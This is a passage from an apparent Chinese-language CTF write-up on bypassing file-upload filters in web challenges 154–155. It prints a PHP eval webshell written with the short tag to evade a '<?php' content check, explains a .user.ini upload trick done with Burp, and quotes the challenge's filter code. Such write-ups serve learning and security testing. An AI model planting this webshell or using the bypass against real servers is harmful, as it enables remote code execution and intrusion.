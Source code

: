 ![upload](/medias/show-upload/7.png)

(稍加思索.png)，大概是文件内容开头的<?php被检测到了，稍加修改

```php
<?=highlight_file(__FILE__);eval($_GET[1]);?>
```

上传成功。那么再试试上一题的.user.ini还能不能用，上传.user.png，bp修改为.user.ini，成功上传并解析php代码

![=](/medias/show-upload/8.png)

## web 155 内容检测

正常上传图片马，提示文件类型不对？？用上题的方法可以正常做出来。

好奇。用上题的方法挂马后查看一下这题的源码，真的还是检测文件内容

```php
if($_FILES['file']['type'] == 'image/png'){
            $arr = pathinfo($filename);
            $ext_suffix = $arr['extension'];
            if($ext_suffix!='php'){
                $content = file_get_contents($_FILES["file"]["tmp_name"]);
                if(stripos($content, "php")===FALSE){
                    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".$_FILES["file"]["name"]);
                    $ret = array("code"=>0,"msg"=>"upload/".$_FILES["file"]["name"]);
                }else{
                    $ret = array("code"=>2,"msg"=>"文件类型不合规");
                }
                
            }else{
                $ret = array("code"=>2,"msg"=>"文件类型不合规");
            }
    		
    	}else{
```